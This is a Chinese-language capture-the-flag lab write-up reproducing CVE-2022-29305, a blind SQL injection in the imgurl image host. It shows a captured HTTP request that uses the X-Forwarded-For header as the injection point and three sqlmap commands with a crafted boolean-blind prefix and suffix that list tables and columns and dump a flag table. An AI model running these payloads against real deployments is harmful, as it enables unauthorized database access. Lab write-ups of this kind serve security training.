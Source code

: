```yaml
---
title: CVE-2022-29305【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-29305)

## 2. 漏洞分析

[Blind SQL Injection Vulnerability · Issue #75 · helloxz/imgurl · GitHub](https://github.com/helloxz/imgurl/issues/75)

对获取的IP未做过滤，转义等，直接将ip拼接到了sql语句中。

## 3. 漏洞复现

开启环境后用 burpsuite 抓包，由漏洞原理知注入点在获取 IP 的字段，后面以 `x-forwarded-for: ` 为例

示例

```http
POST http://eci-2zegbbx5ie07dgjzp6lh.cloudeci1.ichunqiu.com/upload/localhost HTTP/1.1
Host: eci-2zegbbx5ie07dgjzp6lh.cloudeci1.ichunqiu.com
Content-Length: 0
Accept: application/json, text/javascript, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryA8Uy4gNxUJfICo01
Origin: http://eci-2zegbbx5ie07dgjzp6lh.cloudeci1.ichunqiu.com
Referer: http://eci-2zegbbx5ie07dgjzp6lh.cloudeci1.ichunqiu.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1694490097; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1694490097
x-forwarded-for:  
Connection: close
```

注，`x-forwarded-for: ` 是自己加上去的 

sqlmap 指令

```bash
#表
python sqlmap.py -r post.txt -p x-forwarded-for --prefix="' union select case((1=1) and " --suffix=")when(1)then(10)else(0)end order by num desc-- " -level 3 -risk 3 --dbms sqlite -technique=B --text-only --tables
#列
python sqlmap.py -r post.txt -p x-forwarded-for --prefix="' union select case((1=1) and " --suffix=")when(1)then(10)else(0)end order by num desc-- " -level 3 -risk 3 --dbms sqlite -technique=B --text-only -T flag --columns
#flag
python sqlmap.py -r post.txt -p x-forwarded-for --prefix="' union select case((1=1) and " --suffix=")when(1)then(10)else(0)end order by num desc-- " -level 3 -risk 3 --dbms sqlite -technique=B --text-only -T flag -C flag --dump
```

效果

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309121333873.jpg)

